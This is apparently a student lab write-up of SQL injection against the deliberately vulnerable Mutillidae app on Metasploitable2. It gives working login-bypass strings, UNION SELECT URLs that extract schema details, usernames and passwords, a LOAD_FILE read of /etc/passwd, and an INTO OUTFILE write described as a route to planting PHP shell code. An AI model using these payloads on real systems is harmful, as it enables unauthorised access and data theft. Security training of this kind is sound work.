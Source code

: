 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. 
Identify IP address using ifconfig in Metasploitable2
![Screenshot 2024-05-08 180101](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/96d97aae-ac08-40e8-90f2-653f087cfffc)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![Screenshot 2024-05-11 083126](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/39c8a92e-a76b-4ad2-86fe-a32bc3acb85c)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:

![image](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/5bb3c600-d8b6-4200-868d-7cf6b5ecdd94)
Click on the menu Login/Register and register for an account
![image](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/67fe44b6-6173-405b-8979-afa730bc72e5)

Click on “Create Account” to display the following page:

![Screenshot 2024-05-10 152737](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/d905689b-1838-4604-9470-fcde8e395ff3)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;).
 For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![Screenshot 2024-05-10 154103](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/fca4854a-48f8-4f21-8a58-a64ae2dc3f71)

Click “Login”. The logged in page will show as below:
![Screenshot 2024-05-10 154131](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/906ebf34-dc1f-4866-9ec5-9a1fa7c10d78)



##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password. 

![Screenshot 2024-05-10 154224](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/43078c58-e84d-4da1-be20-89fc02902f2e)

Click the login button and you will see it enter into the administrator page.


## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. 
we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” 

After logging out, Now choose the menu as shown below:
![Screenshot 2024-05-10 184502](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/e32fc296-84da-433c-a91c-f93ed18b324f)


![Screenshot 2024-05-10 184707](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/e9875c83-f4e6-4ddd-ac53-8ce9e6b5ee49)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![Screenshot 2024-05-10 185903](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/3ba959ab-e3bb-44e2-bdf0-bf6cb76d6270)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=balaji%27order%20by6%23&password=balaji1234&user-info-php-submit-button=View+Account+Details
![Screenshot 2024-05-10 185457](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/a9f41584-f9b7-48ef-89d5-e64cdff7cef5)

After adding the order by 6 into the existing url , the following error statement will be obtained:
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![Screenshot 2024-05-10 185903](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/3ba959ab-e3bb-44e2-bdf0-bf6cb76d6270)

 As it is having 5 columns the query worked fine and it provides the correct result

![Screenshot 2024-05-10 184707](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/e9875c83-f4e6-4ddd-ac53-8ce9e6b5ee49)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![Screenshot 2024-05-10 190103](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/e3758b8c-95be-4476-bf92-185020bd8aeb)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![Screenshot 2024-05-10 190129](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/8fa8d5a7-6ad5-47ab-8a78-d4a5f887504d)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,database(),user(),version(),5%23&password=balaji1234&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-05-10 190425](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/ecdea388-621c-4dc7-99c0-7930a7ea9bf8)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=balaji%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=balaji1234&user-info-php-submit-button=View+Account+Details
![Screenshot 2024-05-10 192136](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/03faa153-61f5-4862-9d36-5349a4a7567b)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
The column names of the accounts is displayed below for the following url:
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=balaji%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=balaji1234&user-info-php-submit-button=View+Account+Details 

![Screenshot 2024-05-10 192427](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/1e600e4e-cc24-46c4-97d4-85dafc37e5ad)



Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=balaji%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=balaji1234&user-info-php-submit-button=View+Account+Details


![Screenshot 2024-05-10 192621](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/1ce121ab-3ac3-41dc-974d-e9ae64532695)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=balaji%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=balaji1234&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-05-10 192735](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/a224d1dc-c4a9-46eb-9dbe-934202d5eeea)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
